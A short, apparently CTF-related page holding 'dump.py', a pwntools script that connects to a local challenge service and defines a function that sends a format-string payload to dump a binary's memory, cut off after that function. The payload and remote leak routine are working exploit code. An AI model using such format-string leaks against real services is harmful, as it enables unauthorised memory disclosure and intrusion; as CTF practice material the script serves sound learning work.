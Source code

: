 [![](assets/1701678669-4f3d8f9f01104fce9ecb9e53dc0a836a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128210856-49c15f78-8def-1.png)

## dump.py

```bash
import os
import sys
import time
from pwn import *
from ctypes import *
import binascii

context.os = 'linux'
context.log_level = "debug"

context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

#p=process('./pwn')
p=remote('127.0.0.1',5001)

begin=0x400000
bin = b''
def leak(addr):
    pl="%7$sdump"+p64(addr)
    sla('Please enter your answer\n',pl)
    data=p.recvuntil('dump',drop=True)
    #data = p.recvrepeat(0.2)
    return data

```
